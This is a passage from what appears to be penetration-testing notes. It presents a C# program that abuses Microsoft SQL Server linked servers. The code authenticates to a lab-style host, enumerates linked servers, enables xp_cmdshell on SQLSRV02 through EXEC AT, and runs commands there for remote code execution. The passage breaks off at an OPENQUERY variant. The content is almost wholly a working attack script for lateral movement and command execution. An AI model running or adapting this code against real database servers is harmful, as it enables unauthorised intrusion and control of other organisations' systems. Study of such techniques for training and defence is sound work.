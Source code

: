 Abusing server links from C# code:

{% code title="SqlCrawlLinks.cs" %}
```csharp
using System;
using System.Data.SqlClient;

namespace SqlCrawlLinks
{
    class Program
    {
        static string sqlQuery(string query, SqlConnection con)
        {
            SqlCommand command = new SqlCommand(query, con);
            SqlDataReader reader = command.ExecuteReader();
            string result = "";
            try
            {
                while (reader.Read()) { result += $"{reader[0]}\n"; }
                result = result.Remove(result.Length - 1);
            }
            catch { }
            reader.Close();
            return result;
        }

        static void Main(string[] args)
        {
            // Authenticate
            string sqlServer = "SQLSRV01.corp1.com";
            string database = "master";
            string conString = $"Server = {sqlServer}; Database = {database}; Integrated Security = True;";
            SqlConnection con = new SqlConnection(conString);

            try
            {
                con.Open();
                Console.WriteLine("[+] Auth success!");
            }
            catch
            {
                Console.WriteLine("[-] Auth failed");
                Environment.Exit(0);
            }

            // List linked servers
            string result = sqlQuery("EXEC sp_linkedservers;", con);
            Console.WriteLine($"[*] Linked SQL servers:\n{result}");

            // Enumerate current login on the linked server
            result = sqlQuery("select login from openquery(\"SQLSRV02\", 'select SYSTEM_USER as login');", con);
            Console.WriteLine($"[*] Executing as the login {result} at SQLSRV02");

            // Enable xp_cmdshell on the linked server
            sqlQuery("EXEC ('EXEC sp_configure ''show advanced options'',1; RECONFIGURE; EXEC sp_configure ''xp_cmdshell'',1; RECONFIGURE;') AT [SQLSRV02];", con);

            // RCE via EXEC at on the linked server
            result = sqlQuery("EXEC ('EXEC xp_cmdshell ''whoami'';') AT [SQLSRV02];", con);
            Console.WriteLine($"[*] xp_cmdshell at SQLSRV02 via EXEC AT: {result}");

            // RCE via OPENQUERY on the linked server
```